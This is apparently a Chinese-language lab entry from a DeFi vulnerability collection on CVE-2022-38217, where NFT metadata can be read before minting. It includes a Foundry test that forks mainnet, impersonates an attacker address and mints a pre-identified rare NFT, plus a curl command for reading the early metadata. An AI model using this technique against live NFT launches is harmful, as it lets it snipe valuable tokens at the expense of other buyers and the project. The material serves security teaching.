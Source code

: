 # 通过暴露的元数据铸造NFT
[NFTMint_exposedMetadata.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/NFTMint_exposedMetadata.sol)  

**名称：** NFT通过暴露的元数据进行铸造的漏洞  

**描述：**  
该合约存在CVE-2022-38217的漏洞，这可能会导致项目中所有NFT的元数据提前被披露。  
因此，攻击者可以找到有价值的NFT，然后通过监控内存池来瞄准特定NFT的铸造，并在二级市场上出售NFT以获取利润。  
问题是元数据是在铸造完成后才能可见的  

**参考：**  
https://twitter.com/Supremacy_CA/status/1596176732729769985  
https://medium.com/@Supremacy_Official/evilreveal-cve-2022-38217-a-nuclear-weapon-level-generic-vulnerability-buried-under-the-nft-5112724dabb  

**合约：**  

```
contract ContractTest is DSTest {
    IFantasticWeslie nftContract =
        IFantasticWeslie(0xf6FFBa463e46087FcdC3a51391bB675B0e2C1a40); // 神奇的韦斯利（一种类型的狗）

    CheatCodes cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);

    bytes32[] merkleTreeProof;

    function setUp() public {
        cheats.createSelectFork("mainnet", 16023847);
    }
}
```  
**如何测试：** 
forge test --contracts src/test/NFTMint_exposedMetadata.sol-vvvv  


```
function testExploit() public {
        // 该合约存在 CVE-2022-38217 漏洞，
        // 这可能导致项目中所有 NFT 的元数据提前暴露。
        // 因此，攻击者可以找到有价值的 NFT，
        // 并通过监视内存池来针对特定的 NFT 进行铸造，
        // 然后在二级市场出售这些 NFT 以获取利润

        //例如，假设攻击者发现NFT#142是一种罕见的NFT，现在他只需监控内存池，直到NFT#141被铸造，然后再铸造NFT#142
        //通过cURL查看NFT的元数据 -> curl -k https://bafybeic23x4v75z7isyqhy5p6ylzqutm6lnpobwngaouovdu6qjjvt4wpu.ipfs.dweb.link/142.json
        //问题在于，元数据应该在铸造完成后才能被查看。


        //以太坊上的交易信息- 0xfa4434236d2a9717e3410d7cdc60eed6acfddb054f58bc779c07349a1f45ce6b
        //以太坊上的交易信息 - 0x24af97355f6cec4ae02fff8bbf7144a02857e3ffd36a650aa295c62f6272cc83

        address attacker = 0x1fCebBb5D3EACd26e70b0BD1E54a979a479906aA;
        cheats.prank(attacker);

        merkleTreeProof.push(
            0x0ea49bae9ab4f8b82fb0e0b5e876576c9a4a945edc2fa5a7b448fad470802ae6
        );
        merkleTreeProof.push(
            0x852233af3700b87dc51f6abf53d4f935746d746d84a33d4d7e6302d9c110fedd
        );
        merkleTreeProof.push(
            0x5de513269badb3a0b73e237a9f28f86994791f4421effd1865df975a0f8ee52c
        );
        merkleTreeProof.push(
            0xe52d780f15394a8f6254f328ca06a66909c41f1ee3adab33d02cd087f8c37604
        );
        merkleTreeProof.push(
            0xede88505e4259ab482a1019cc8d4364cf9e1e7866768245854c0f6e369d2b08c
        );
        merkleTreeProof.push(
            0x776fee48d9285a8e2d1ecde47354e9ebe91b10f0b5f2d754968af831a7047808
        );
        merkleTreeProof.push(
            0x3d13c4757d9e35123b8785040c29f232483941fb7d591b1a94167c1ca5e8875f
        );
        merkleTreeProof.push(
            0xc36c091c358833709f1b6f44e783e5d9ad5ad9f5f0ee09a37c376fd354827fb1
        );
        merkleTreeProof.push(
            0xce26991b2af9fc0fb807aea36667d37439ae7122d3ea8edcbfe92b04bf674922
        );
        merkleTreeProof.push(
            0x8452c207732923a758c53fb296f3d88340a04fe9c381c73ba44343a45340953e
        );
        merkleTreeProof.push(
            0xcc44822b3b5a19839899f6795622daff3bab327895558977ea58a30a42c6a49e
        );
        merkleTreeProof.push(
            0x45c575962e5a88b5e8c3aedf4e3e74306d0124f4cc86c25bc4cd1bcae16c54a0
        );

        nftContract.mint{value: 0.12 ether}(merkleTreeProof);

        console.log("Owner of NFT#142 : ", nftContract.ownerOf(142));
    }  
 ```

 ![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fae9db374-5202-4b32-872c-c34689b977ec%2FUntitled.png?table=block&id=7c2373ef-3082-4eb1-bb2c-3e270899cb6b&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=1430&userId=&cache=v2)



